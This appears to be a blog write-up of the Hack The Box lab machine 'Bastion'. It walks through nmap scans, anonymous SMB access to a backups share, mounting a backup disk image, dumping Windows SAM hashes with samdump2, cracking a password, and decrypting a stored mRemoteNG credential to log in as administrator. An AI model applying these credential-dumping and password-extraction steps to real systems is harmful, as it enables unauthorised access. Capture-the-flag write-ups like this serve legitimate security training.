 ```yaml
---
title: Bastion Write up
date: 2024-01-24 11:00:00 -500
categories: [writeup]
tags: [hackthebox]
# TAGS should always be lowercase
---
```


# Welcome to my Bastard's Write-up 

## Recon

### Nmap


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo nmap -sSVC -A -oA nmap/bastion 10.10.10.134</span></div>
<br> 


    Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-13 18:59 +01
    Nmap scan report for 10.10.10.134
    Host is up (0.069s latency).
    Not shown: 996 closed tcp ports (reset)
    PORT    STATE SERVICE      VERSION
    22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp open  msrpc        Microsoft Windows RPC
    139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    .
    .
    .
    Host script results:
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2023-06-13T18:00:17
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:00:19+02:00
    |_clock-skew: mean: -39m57s, deviation: 1h09m14s, median: 0s



ALL ports scan

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ nmap -p- -Pn -A -T4 10.10.10.134</span></div>
<br>

    Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-13 19:00 +01
    Nmap scan report for 10.10.10.134
    Host is up (0.11s latency).
    Not shown: 65522 closed tcp ports (conn-refused)
    PORT      STATE SERVICE      VERSION
    22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
    | ssh-hostkey: 
    |   2048 3a56ae753c780ec8564dcb1c22bf458a (RSA)
    |   256 cc2e56ab1997d5bb03fb82cd63da6801 (ECDSA)
    |_  256 935f5daaca9f53e7f282e664a8a3a018 (ED25519)
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
    5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc        Microsoft Windows RPC
    49665/tcp open  msrpc        Microsoft Windows RPC
    49666/tcp open  msrpc        Microsoft Windows RPC
    49667/tcp open  msrpc        Microsoft Windows RPC
    49668/tcp open  msrpc        Microsoft Windows RPC
    49669/tcp open  msrpc        Microsoft Windows RPC
    49670/tcp open  msrpc        Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb2-security-mode: 
    |   311: 
    |_    Message signing enabled but not required
    |_clock-skew: mean: -39m59s, deviation: 1h09m15s, median: 0s
    | smb2-time: 
    |   date: 2023-06-13T18:02:18
    |_  start_date: 2023-06-13T17:58:56
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: Bastion
    |   NetBIOS computer name: BASTION\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-06-13T20:02:16+02:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)


### SMB

We will start by listing shares:

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient -L 10.10.10.134</span></div>
<br>   

![image 1](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(1).png)

We can see that there is an interesting share named "backups". Let's access it.

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ smbclient //10.10.10.134/Backups -U "user"%" "</span></div>
<br>

![image 2](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(2).png)

Download all files using "mget *".

![image 3](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(3).png)

Seems like we have to mount it locally.

## Initial Foothold


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ mount -t cifs //10.10.10.134/backups /mnt -o user=user,password=</span></div>
<br>

![image 4](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(4).png)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">Note : to install guestmount use the command: sudo apt install libguestfs-tools</span></div>
<br>

![image 5](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(5).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/</span></div>
<br> 

![image 6](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(6).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># cd /mnt2/Windows/System32/config</span></div>
<br>

![image 7](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(7).png)

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red"># samdump2 ./SYSTEM ./SAM</span></div>
<br>

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(8).png)





### Crack the hash

Let's crack the hash using : [https://crackstation.net/](https://crackstation.net/)

![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(9).png)


>L4mpje:Bureaulampje

<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ssh L4mpje@10.10.10.134</span></div>
<br>

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(10).png)

## Privilege Escalation

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">cd C:\Users\L4mpje\AppData\Roaming\mRemoteNG</span></div>
<br>


<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">dir</span></div>
<br>

![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(11).png)

<div style="background-color: #1e2124; padding: 10px;">
l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG><span style="color:red">type confCons.xml</span></div>
<br> 

![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(12).png)

We found the administrator's hash

To crack it we need to use mremoteng_decrypt : https://github.com/haseebT/mRemoteNG-Decrypt


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ ./mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==</span></div>
<br>


![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(13).png)


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>ssh administrator@10.10.10.134</span></div>
<br> 

![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Bastion-htb/image%20(14).png)